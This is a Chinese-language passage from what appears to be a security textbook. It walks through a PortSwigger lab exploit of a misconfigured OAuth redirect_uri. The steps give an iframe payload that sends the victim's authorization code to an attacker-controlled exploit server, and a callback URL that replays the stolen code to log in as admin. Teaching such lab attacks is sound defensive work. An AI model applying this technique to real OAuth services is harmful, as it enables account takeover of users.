 图 9.12 – 带有授权码的漏洞服务器访问日志

1.  现在保留该 URL，但返回到主漏洞服务器页面，并将其粘贴到 body 的 iframe 中（请参阅以下代码片段），确保`OAUTH-ID`、`CLIENT-ID`（你第一次登录时的 OAuth ID）和`EXPLOIT-ID`（漏洞服务器的 ID）是正确的：

    ```
     <iframe src="https://OAUTH-ID.web-security-academy.net/auth?client_id=CLIENT_ID&redirect_uri=https://EXPLOIT-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
    ```

1.  接下来，点击底部的`Store`按钮上传漏洞。一旦完成，*不要*点击`View exploit`，而是从`src" "`复制整个网址，打开一个新的浏览器标签页，将网址粘贴到地址栏并访问它。如前所述，这将打开一个 iframe，展示漏洞服务器网页。

1.  关闭浏览器标签页，返回漏洞服务器并检查`Access log`。你将看到日志显示一个`GET /?code=`请求，带有新生成的代码，如*图 9.13*所示。这是你的代码，但它能让你判断漏洞是否有效：

![图 9.13 – iframe 负载的访问日志](img/Figure_9.13_B18829.jpg)

图 9.13 – iframe 负载的访问日志

1.  将相同的漏洞交付给受害者，然后返回`Access Log`，查找来自不同 IP 地址的新生成代码。从日志中的结果复制受害者的代码：

重要提示

如果代码字符串的末尾有一个破折号（**-**），请确保将这个破折号和整个代码一起复制。

![图 9.14 – 受害者负载响应](img/Figure_9.14_B18829.jpg)

图 9.14 – 受害者负载响应

1.  *先登出*整个网站，使用新捕获的代码，构造一个新的`oauth-callback` URL 并将其粘贴到浏览器的地址栏中访问：

    ```
     https://LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
    ```

1.  OAuth 会自动完成身份验证并将你登录为管理员。

1.  进入`Admin`面板。

1.  删除 Carlos。

## 它是如何工作的...

OAuth 2.0 框架是一个常见的身份验证工具，但由于配置错误，常常会出现漏洞。OAuth 流程的一个重要组件是重定向 URL。授权服务器将在用户成功授权某个应用后将用户引导回应用。至关重要的是，服务不能将客户重定向到随机位置，因为重定向 URL 包含关键信息。
